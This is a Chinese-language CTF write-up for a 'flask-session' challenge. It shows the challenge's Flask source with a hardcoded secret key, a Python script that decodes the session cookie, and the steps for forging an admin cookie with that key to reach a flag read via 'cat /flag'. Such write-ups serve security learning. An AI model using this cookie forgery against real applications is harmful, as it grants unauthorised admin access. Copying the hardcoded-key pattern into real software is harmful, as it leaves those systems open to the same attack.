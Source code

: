 # flask-session

难度：***

## 解题过程

![微信截图_20241015185059](https://gitee.com/LightBeyond/blog_images/raw/master/img/微信截图_20241015185059.png)

flask源码直接展示，进行排版：

```python
from flask import Flask, session, request, render_template_string
import os

app = Flask(__name__)
app.secret_key = 'IronDragon'

@app.route('/')
def index():
    session['role'] = {
        'is_admin': 0,
        'name': 'Augustine'
    }
    with open(__file__, 'r') as file:
        code = file.read()
    return code

@app.route('/admin')
def admin_handler():
    try:
        role = session.get('role')
        if not isinstance(role, dict):
            raise Exception
    except Exception:
        return 'Without you, you are an intruder!'

    if role.get('is_admin') == 1 and role.get('name') == 'Aili':
        flag = os.popen("cat /flag").read()
        message = "Oh, I believe in you! The flag is: %s" % flag
        return render_template_string(message)
    else:
        return "Error: You don't have the power!"

if __name__ == '__main__':
    app.run(debug=True)
```

一个秘钥key为IronDragon，是编码session时使用的。

在初始页面（/），写入session为：

session['role'] = {
        'is_admin': 0,
        'name': 'Augustine'
 }

在admin页面，要求session中的is_admin = 1， name = Aili，才能执行cat /flag。

所以首先要找一个session解码脚本，比如下面：

```python
# python session 解码
# 伪造使用 flask-session-manage-python3
#!/usr/bin/env python3
import sys
import zlib
from base64 import b64decode
from flask.sessions import session_json_serializer
from itsdangerous import base64_decode


def decryption(payload):
    payload, sig = payload.rsplit(b'.', 1)
    payload, timestamp = payload.rsplit(b'.', 1)

    decompress = False
    if payload.startswith(b'.'):
        payload = payload[1:]
        decompress = True

    try:
        payload = base64_decode(payload)
    except Exception as e:
        raise Exception('Could not base64 decode the payload because of '
                        'an exception')

    if decompress:
        try:
            payload = zlib.decompress(payload)
        except Exception as e:
            raise Exception('Could not zlib decompress the payload before '
                            'decoding the payload')

    return session_json_serializer.loads(payload)

# 在下面写入要解码的session
if __name__ == '__main__':
   print(decryption("eyJyb2xlIjp7ImlzX2FkbWluIjowLCJuYW1lIjoiQXVndXN0aW5lIn19.Zw4rYw.iqqqNd1MVbP8MDS96CgG36lbbE0".encode()))

```

得到：

{'role': {'is_admin': 0, 'name': 'Augustine'}}

现在要对上述信息进行伪造，令is_admin = 1， name = Aili ：

{'role': {'is_admin': 1, 'name': 'Aili'}}

然后，对构造的session进行编码，使用工具：

**flask-session-cookie-manager-master**

已知秘钥为IronDragon，进行编码：

选择encode，-s指定秘钥，-t指定需要编码的字符串。

![微信截图_20241015185832](https://gitee.com/LightBeyond/blog_images/raw/master/img/微信截图_20241015185832.png)

eyJyb2xlIjp7ImlzX2FkbWluIjoxLCJuYW1lIjoiQWlsaSJ9fQ.Zw5K0Q.6RX5GwrksIL0w0Rqdzhuqzqq4Qk



上述session，传回/admin下的session字段中，得到flag。